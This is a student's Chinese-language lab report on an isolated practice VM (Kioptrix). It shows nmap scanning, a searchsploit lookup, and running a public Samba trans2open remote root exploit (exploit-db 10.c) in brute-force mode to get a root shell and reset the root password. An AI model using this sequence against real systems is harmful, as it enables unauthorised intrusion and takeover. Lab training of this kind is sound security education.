

Lab2
Network Atk&Def lab2 241840273 杨良灼
安装好相关工具，并在 Virtual Box UI 界面添加靶机.
创建 NAT 网络，并将攻击机和靶机网络连接方式都改为 NAT 网络，并连接同一个创建的 NAT 网络
- 攻击机 ip 使用
ifconfig查询：
└─$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
inet 10.0.2.4 netmask 255.255.255.0 broadcast 10.0.2.255
inet6 fe80::9d17:dec1:4341:a804 prefixlen 64 scopeid 0x20<link>
ether 08:00:27:3c:97:80 txqueuelen 1000 (Ethernet)
RX packets 210 bytes 22077 (21.5 KiB)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 2448 bytes 149910 (146.3 KiB)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
lo: flags=73<UP,LOOPBACK,RUNNING> mtu 65536
inet 127.0.0.1 netmask 255.0.0.0
inet6 ::1 prefixlen 128 scopeid 0x10<host>
loop txqueuelen 1000 (Local Loopback)
RX packets 8 bytes 480 (480.0 B)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 8 bytes 480 (480.0 B)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
- 使用 nmap 扫描 ip
└─$ sudo nmap -sn 10.0.2.0/24
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-13 07:48 EDT
Nmap scan report for bogon (10.0.2.1)
Host is up (0.00040s latency).
MAC Address: 52:54:00:12:35:00 (QEMU virtual NIC)
Nmap scan report for bogon (10.0.2.2)
Host is up (0.00037s latency).
MAC Address: 52:54:00:12:35:00 (QEMU virtual NIC)
Nmap scan report for 10.0.2.3
Host is up (0.00032s latency).
MAC Address: 08:00:27:4F:5B:7F (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for 10.0.2.7
Host is up (0.00076s latency).
MAC Address: 08:00:27:F3:A8:F5 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for bogon (10.0.2.4)
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 2.03 seconds
- 注意到
10.0.2.7为靶机 ip，执行nmap -sV -sC 10.0.2.7扫描之. 其中我添加了#开头的单行注释.
└─$ sudo nmap -sV -sC 10.0.2.7
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-13 07:51 EDT
Nmap scan report for bogon (10.0.2.7)
Host is up (0.00085s latency).
Not shown: 994 closed tcp ports (reset)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 2.9p2 (protocol 1.99)
# SSH 服务
| ssh-hostkey:
| 1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
| 1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|_ 1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
|_sshv1: Server supports SSHv1
80/tcp open http Apache httpd 1.3.20 ((Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
# HTTP 服务
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
|_http-server-header: Apache/1.3.20 (Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
| http-methods:
|_ Potentially risky methods: TRACE
111/tcp open rpcbind 2 (RPC #100000)
# RPC 服务
| rpcinfo:
| program version port/proto service
| 100000 2 111/tcp rpcbind
|_ 100000 2 111/udp rpcbind
139/tcp open netbios-ssn Samba smbd (workgroup: MYGROUP)
# Samba 服务
443/tcp open ssl/https Apache/1.3.20 (Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
# HTTPS 服务
|_http-server-header: Apache/1.3.20 (Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_ssl-date: 2025-10-13T15:52:12+00:00; +4h00m00s from scanner time.
| sslv2:
| SSLv2 supported
| ciphers:
| SSL2_RC2_128_CBC_WITH_MD5
| SSL2_RC4_128_WITH_MD5
| SSL2_DES_192_EDE3_CBC_WITH_MD5
| SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
| SSL2_RC4_64_WITH_MD5
| SSL2_RC4_128_EXPORT40_WITH_MD5
|_ SSL2_DES_64_CBC_WITH_MD5
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-09-26T09:32:06
|_Not valid after: 2010-09-26T09:32:06
32768/tcp open status 1 (RPC #100024)
MAC Address: 08:00:27:F3:A8:F5 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: 3h59m59s
|_nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.32 seconds
我们得知了其各个服务端口，同时得知了靶机操作系统为 Red-Hat/Linux.
考虑进攻方向，这里进攻 Samba 服务，不过我们不知道其版本号.
根据 SSH 服务中使用的 OpenSSH 2.9p2 的发行时间为 2001 年 6 月 17 日（OpenSSH: Release Notes: https://www.openssh.com/releasenotes.html），HTTP 服务中使用的 Apache 1.3.20 的发行时间为 2001 年 5 月 22 日（Apache Week. Apache 1.3.20 released: http://www.apacheweek.com/issues/01-05-25），故而猜测 Samba 的版本号发行时间与二者相近.
搜索发现查询 Samba 靠近那个时间点的版本发行日期：
| 序号 | Samba 版本号 | 发行时间 | 相关链接 |
|---|---|---|---|
| 1 | 2.0.7 | 2000-04-26 | www.linuxtoday.com/developer/appwatch-samba-2-0-7-released/ |
| 2 | 2.2.0 | 2001-04-19 | www.linuxtoday.com/infrastructure/whats-new-in-samba-2-2/ |
| 3 | 2.2.1 | 2001-07-10 | https://www.samba.org/samba/history/samba-2.2.1.html |
| 4 | 2.2.2 | 2001-10-13 | https://www.samba.org/samba/history/samba-2.2.2.html |
| 5 | 2.2.3 | 2002-02-02 | https://www.samba.org/samba/history/samba-2.2.3.html |
所以可以猜测 Samba 的主版本号和次版本号应为 2.2.
- 使用
searchsploit尝试搜索漏洞：
└─$ searchsploit Samba 2.2
------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Exploit Title | Path
------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Samba 2.0.x/2.2 - Arbitrary File Creation | unix/remote/20968.txt
Samba 2.2.0 < 2.2.8 (OSX) - trans2open Overflow (Metasploit) | osx/remote/9924.rb
Samba 2.2.2 < 2.2.6 - 'nttrans' Remote Buffer Overflow (Metasploit) (1) | linux/remote/16321.rb
Samba 2.2.8 (BSD x86) - 'trans2open' Remote Overflow (Metasploit) | bsd_x86/remote/16880.rb
Samba 2.2.8 (Linux Kernel 2.6 / Debian / Mandrake) - Share Privilege Escalation | linux/local/23674.txt
Samba 2.2.8 (Linux x86) - 'trans2open' Remote Overflow (Metasploit) | linux_x86/remote/16861.rb
Samba 2.2.8 (OSX/PPC) - 'trans2open' Remote Overflow (Metasploit) | osx_ppc/remote/16876.rb
Samba 2.2.8 (Solaris SPARC) - 'trans2open' Remote Overflow (Metasploit) | solaris_sparc/remote/16330.rb
Samba 2.2.8 - Brute Force Method Remote Command Execution | linux/remote/55.c
Samba 2.2.x - 'call_trans2open' Remote Buffer Overflow (1) | unix/remote/22468.c
Samba 2.2.x - 'call_trans2open' Remote Buffer Overflow (2) | unix/remote/22469.c
Samba 2.2.x - 'call_trans2open' Remote Buffer Overflow (3) | unix/remote/22470.c
Samba 2.2.x - 'call_trans2open' Remote Buffer Overflow (4) | unix/remote/22471.txt
Samba 2.2.x - 'nttrans' Remote Overflow (Metasploit) | linux/remote/9936.rb
Samba 2.2.x - CIFS/9000 Server A.01.x Packet Assembling Buffer Overflow | unix/remote/22356.c
Samba 2.2.x - Remote Buffer Overflow | linux/remote/7.pl
Samba < 2.2.8 (Linux/BSD) - Remote Code Execution | multiple/remote/10.c
Samba < 3.0.20 - Remote Heap Overflow | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC) | linux_x86/dos/36741.py
------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
这个工具提供了针对 Samba 2.2.8 (Linux/BSD) 的工具（脚本），位于 multiple/remote/10.c，可以__远程代码执行__（remote code execution, RCE）攻击靶机.
运行这个脚本：
└─$ gcc -std=gnu89 10.c -o samba
└─$ ./samba
samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
--------------------------------------------------------------
Usage: ./samba [-bBcCdfprsStv] [host]
-b <platform> bruteforce (0 = Linux, 1 = FreeBSD/NetBSD, 2 = OpenBSD 3.1 and prior, 3 = OpenBSD 3.2)
-B <step> bruteforce steps (default = 300)
-c <ip address> connectback ip address
-C <max childs> max childs for scan/bruteforce mode (default = 40)
-d <delay> bruteforce/scanmode delay in micro seconds (default = 100000)
-f force
-p <port> port to attack (default = 139)
-r <ret> return address
-s scan mode (random)
-S <network> scan mode
-t <type> presets (0 for a list)
-v verbose mode
└─$ ./samba -v -b 0 10.0.2.7
samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
--------------------------------------------------------------
+ Verbose mode.
+ Bruteforce mode. (Linux)
+ Host is running samba.
+ Using ret: [0xbffffed4]
+ Using ret: [0xbffffda8]
+ Using ret: [0xbffffc7c]
+ Using ret: [0xbffffb50]
+ Worked!
--------------------------------------------------------------
*** JE MOET JE MUIL HOUWE
Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
uid=0(root) gid=0(root) groups=99(nobody)
进而进入到命令行页面，使用 whoami 确认身份为 root，随即使用 passwd 命令修改密码，其显示我们更改成功.

然后回到靶机界面利用我们更改成功的密码登陆之，结果是成功的.